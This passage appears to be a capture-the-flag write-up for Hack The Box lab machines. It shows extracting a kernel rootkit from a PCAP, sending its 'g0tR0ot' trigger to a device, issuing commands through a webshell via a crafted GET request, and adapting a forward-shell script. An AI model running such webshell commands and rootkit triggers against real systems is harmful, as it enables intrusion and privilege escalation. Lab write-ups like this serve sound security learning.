 There are credentials for the _www.pwnhats.htb_ website, but they don't work on any of the web login forms:
```
Username: pwnhats@pwnhats.htb
Password: GetYouAH4t!
```

After analyzing the PCAP more, there were suspicious files sent between the IP 10.0.2.19 and 10.0.2.122, that can be exported with Wireshark:
```
File --> Export Objects --> HTTP --> Packet number 426 (Makefile) & Packet number 489 (root.c)
```

It is a _Makefile_ for compiling and the according _root.c_ source code.

The file _root.c_ looks like a **Kernel Rootkit** as it creates a device and sends data to it.
If the magic data _"g0tR0ot"_ is sent to the device _ttyR03_, it will edit the credential structure and give us root.

When testing that on the webshell and the `whoami` command, it still shows the user _ib01c03_:
```
GET /shell.php?hidden=echo+"g0tR0ot"+>+/dev/ttyR0%3b+whoami
Host: sec03.rentahacker.htb
```

We need a shell on the box and the firewall can be bypassed with a **Forward Shell** by uploading a shell to the box and use files as Input/Output.

## Getting a Shell

I will use this [forward-shell from IppSec](https://github.com/IppSec/forward-shell/blob/master/forward-shell.py) and modify it accordingly.
```
(...)
self.url = r"http://sec03.rentahacker.htb/shell.php"
(...)
headers = {'hidden': payload}
(...)
```

Running the script to get a shell:
```
python3 forward-shell.py

Cmd> upgrade

Cmd> echo "g0tR0ot" > /dev/ttyR0
```

The rootkit command still does not work, so maybe another user is needed to execute it.

### Privilege Escalation

There are two more users on the box and all gained passwords should be tested on them to escalate privileges:
- ib01c01
- ib01c02
